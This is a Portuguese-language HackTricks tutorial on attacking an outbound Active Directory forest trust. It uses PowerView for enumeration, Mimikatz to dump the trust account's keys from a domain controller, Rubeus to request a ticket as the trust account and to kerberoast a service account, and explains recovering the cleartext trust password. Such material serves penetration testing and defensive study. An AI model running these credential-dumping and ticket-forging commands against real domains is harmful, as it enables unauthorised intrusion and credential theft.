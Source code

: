# Domínio de Floresta Externa - Um Sentido (Saída)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

Neste cenário **seu domínio** está **confiando** alguns **privilégios** a um principal de **domínios diferentes**.

## Enumeração

### Confiança de Saída
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Ataque à Conta de Confiança

Uma vulnerabilidade de segurança existe quando uma relação de confiança é estabelecida entre dois domínios, identificados aqui como domínio **A** e domínio **B**, onde o domínio **B** estende sua confiança ao domínio **A**. Nesse arranjo, uma conta especial é criada no domínio **A** para o domínio **B**, que desempenha um papel crucial no processo de autenticação entre os dois domínios. Esta conta, associada ao domínio **B**, é utilizada para criptografar tickets para acessar serviços entre os domínios.

O aspecto crítico a entender aqui é que a senha e o hash desta conta especial podem ser extraídos de um Controlador de Domínio no domínio **A** usando uma ferramenta de linha de comando. O comando para realizar essa ação é:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Esta extração é possível porque a conta, identificada com um **$** após seu nome, está ativa e pertence ao grupo "Domain Users" do domínio **A**, herdando assim as permissões associadas a este grupo. Isso permite que indivíduos se autentiquem no domínio **A** usando as credenciais desta conta.

**Warning:** É viável aproveitar essa situação para obter uma base no domínio **A** como um usuário, embora com permissões limitadas. No entanto, esse acesso é suficiente para realizar enumeração no domínio **A**.

Em um cenário onde `ext.local` é o domínio confiável e `root.local` é o domínio confiável, uma conta de usuário chamada `EXT$` seria criada dentro de `root.local`. Através de ferramentas específicas, é possível despejar as chaves de confiança do Kerberos, revelando as credenciais de `EXT$` em `root.local`. O comando para alcançar isso é:
```bash
lsadump::trust /patch
```
Seguindo isso, poderia-se usar a chave RC4 extraída para autenticar como `root.local\EXT$` dentro de `root.local` usando outro comando de ferramenta:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Esta etapa de autenticação abre a possibilidade de enumerar e até explorar serviços dentro de `root.local`, como realizar um ataque Kerberoast para extrair credenciais de contas de serviço usando:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Coletando a senha de confiança em texto claro

No fluxo anterior, foi utilizado o hash de confiança em vez da **senha em texto claro** (que também foi **extraída pelo mimikatz**).

A senha em texto claro pode ser obtida convertendo a saída \[ CLEAR ] do mimikatz de hexadecimal e removendo bytes nulos ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

Às vezes, ao criar um relacionamento de confiança, uma senha deve ser digitada pelo usuário para a confiança. Nesta demonstração, a chave é a senha original de confiança e, portanto, legível por humanos. À medida que a chave muda (a cada 30 dias), o texto claro não será legível por humanos, mas tecnicamente ainda utilizável.

A senha em texto claro pode ser usada para realizar autenticação regular como a conta de confiança, uma alternativa a solicitar um TGT usando a chave secreta Kerberos da conta de confiança. Aqui, consultando root.local a partir de ext.local para membros do Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Referências

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

